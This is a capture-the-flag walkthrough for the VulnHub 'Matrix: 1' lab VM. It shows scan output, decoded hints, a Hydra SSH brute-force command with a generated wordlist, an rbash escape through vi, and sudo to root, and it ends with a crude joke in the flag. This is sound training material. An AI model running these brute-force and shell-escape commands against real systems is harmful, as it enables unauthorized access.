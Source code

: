 # Matrix: 1 - CTF Walkthrough
[VulnHub URL]
## Description:
```
Matrix is a medium level boot2root challenge. The OVA has been tested on both VMware and Virtual Box.
Difficulty: Intermediate
Flags: Your Goal is to get root and read /root/flag.txt
Networking: DHCP: Enabled IP Address: Automatically assigned
Hint: Follow your intuitions ... and enumerate!
For any questions, feel free to contact me on Twitter: @unknowndevice64
```
## Contents:
 1. Initial scanning & recon
 2. Following the white rabbit to BASE64 and Brainfuck.
 3. Generating a wordlist for the 'guest' account.
 4. Escaping rbash with a text editor.
 5. Capturing `flag.txt`.
## Initial scanning & recon
 - Nmap
 - Nikto

Nmap:
```
Nmap scan report for matrix.local (192.168.56.101)
Host is up (0.00029s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:8b:c7:7b:48:db:db:0c:4b:68:69:80:7b:12:4e:49 (RSA)
|   256 49:6c:23:38:fb:79:cb:e0:b3:fe:b2:f4:32:a2:70:8e (ECDSA)
|_  256 53:27:6f:04:ed:d1:e7:81:fb:00:98:54:e6:00:84:4a (ED25519)
80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
MAC Address: 08:00:27:E5:B2:AA (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
```
Nikto:
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.101
+ Target Hostname:    matrix.local
+ Target Port:        80
+ Start Time:         2019-01-24 15:46:27 (GMT0)
---------------------------------------------------------------------------
+ Server: SimpleHTTP/0.6 Python/2.7.14
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ SimpleHTTP/0.6 appears to be outdated (current is at least 1.2)
+ ERROR: Error limit (20) reached for host, giving up. Last error: invalid HTTP response
+ Scan terminated:  20 error(s) and 4 item(s) reported on remote host
+ End Time:           2019-01-24 15:46:38 (GMT0) (11 seconds)
```

## Following the white rabbit to BASE64 and Brainfuck.

Looking at the two HTTP services (80 and 31337), the structure appears to remain pretty much the same.

Port 80's page source however, points to a picture of a white rabbit with the name referring to the other port. Might as well follow it.

Looking into the other HTTP service's page source reveals a BASE64 encoded string, to decrpyt it in one line (on *NIX systems) type the 
following: `echo {BASE64 STRING} | base64 -d `

After doing this, you will see the following message:
```
echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix
```

Of course `Cypher.matrix` is a filename. Navigating to `matrix.local:31337/Cypher.matrix` will prompt you to download a file.

The contents, which I won't post here are encoded in [Brainfuck], a great translator for this language can be found [here].

The decoded message reads:
```
You can enter into matrix as guest, with password k1ll0rXX

Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.
```
## Generating a wordlist for the 'guest' account
There are a variety of ways this can be done, for those who have little experience with programming, you can use a tool called [maskprocessor] 
(installed in Kali).

The command used to generate the wordlist is as follows: `mp64 k1ll0r?a?a`

The next step is to use a password attack utility, like [Hydra], to test the potential passwords on the SSH service (port 22).

The command I used is as follows:
```
hydra -l guest -P passwords.txt -o out.txt -s 22 -t 4 matrix.local ssh
```
Here is a quick rundown of this command:

	- *-l* - A single username, capitalise this if you want to use a list of users.
	- *-P* - The list of passwords from `mp64`.
	- *-o* - The output file.
	- *-s* - The target port. This only needs to be defined if the service you're attacking is running on a different port from the 
	normal one.
	- *-t* - Number of concurrent attacks to make, 4 is recommended for SSH, as any more could cause trouble with the service.
	- *matrix.local* - Obviously the hostname or IP address you're targeting.
	- *ssh* - Specifies the type of service Hydra will attack.

Roughly ten minutes later, I got a hit:
```
[22][ssh] host: matrix.local   login: guest   password: k1ll0r7n
```

## Escaping rbash with a text editor
So upon logging into the SSH service, it quickly becomes apparent that the `guest` account has a few restrictions...

Commands like `ls` and `id` don't work, even `cd` is restricted.

This is the work of something known as [rbash], a locked-down shell that stops attackers from running potentially dangerous commands.

Obviously, this can be broken - surprisingly easily.

The first step was to get an understanding of what is available to the guest, running `export -p` will output a lot of useful information
about what you can access. Without running through all of the dull information, this line is important:
```
declare -rx PATH="/home/guest/prog"
```
This directory holds all programs that can be accessed from simply typing their names, using echo to see everything in there:
`echo prog/*` shows that `vi` is present.

`rbash` is pretty terrible just on its own, [there are many ways] of escaping without a lot of effort. One way uses a text editor, `vi`
for example:
```
$ vi
:set shell=/bin/bash
:!/bin/bash
bash-4.4$ export PATH=/usr/bin:/bin/
```
So we've got an unrestricted (normal) Bash shell, without messing around with anything else on the system, let's get root.

## Capturing flag.txt
```
$sudo -i

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password: 
root@porteus:~# whoami
root
```
Yeah... You can use `k1ll0r7n` to execute commands as `root`. Navigating to `/root/flag.txt`..:
```
root@porteus:~# more flag.txt 
   _,-.                                                             
,-'  _|                  EVER REWIND OVER AND OVER AGAIN THROUGH THE
|_,-O__`-._              INITIAL AGENT SMITH/NEO INTERROGATION SCENE
|`-._\`.__ `_.           IN THE MATRIX AND BEAT OFF                 
|`-._`-.\,-'_|  _,-'.                                               
     `-.|.-' | |`.-'|_     WHAT                                     
        |      |_|,-'_`.                                            
              |-._,-'  |     NO, ME NEITHER                         
         jrei | |    _,'                                            
              '-|_,-'          IT'S JUST A HYPOTHETICAL QUESTION    
```
On that note, that's this CTF done.


[VulnHub URL]: <https://www.vulnhub.com/entry/matrix-1,259/>
[Brainfuck]: <https://en.wikipedia.org/wiki/Brainfuck>
[here]: <https://www.dcode.fr/brainfuck-language>
[maskprocessor]: <https://github.com/kieran-walker-0/maskprocessor>
[Hydra]: <https://github.com/kieran-walker-0/thc-hydra>
[rbash]: <https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html>
[there are many ways]: <https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells>



